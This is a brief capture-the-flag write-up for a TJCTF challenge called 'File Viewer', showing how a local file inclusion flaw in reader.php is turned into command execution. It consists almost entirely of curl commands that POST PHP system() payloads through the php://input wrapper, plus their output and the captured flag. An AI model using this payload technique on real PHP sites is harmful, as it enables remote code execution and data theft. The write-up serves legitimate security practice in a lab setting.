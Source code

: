 # File Viewer

Basic LFI Vuln  
curl -XPOST 'https://file_viewer.tjctf.org/reader.php?file=php://input' -d '<?php system("whoami"); ?>' - www-data
ls -la:  
```
-r--r--r-- 1 root     root       44 May 18 15:32 apple.txt
-r--r--r-- 1 root     root       74 May 24 15:12 grape.txt
dr-xr-xr-x 1 root     root     4096 May 24 15:12 i_wonder_whats_in_here
-r--r--r-- 1 root     root     3012 May 18 15:32 index.html
-r--r--r-- 1 root     root       27 May 18 15:32 orange.txt
-r--r--r-- 1 root     root       49 May 18 15:32 pear.txt
-r--r--r-- 1 root     root       27 May 18 15:32 pinneaple.txt
-r--r--r-- 1 root     root     2532 May 18 15:32 reader.php
-r--r--r-- 1 root     root       22 May 18 15:32 watermelon.txt
```
```php
curl -XPOST 'https://file_viewer.tjctf.org/reader.php?file=php://input' -d '<?php system("cat i_wonder_whats_in_here/* "); ?>'
```
#### tjctf{n1c3_j0b_with_lf1_2_rc3}
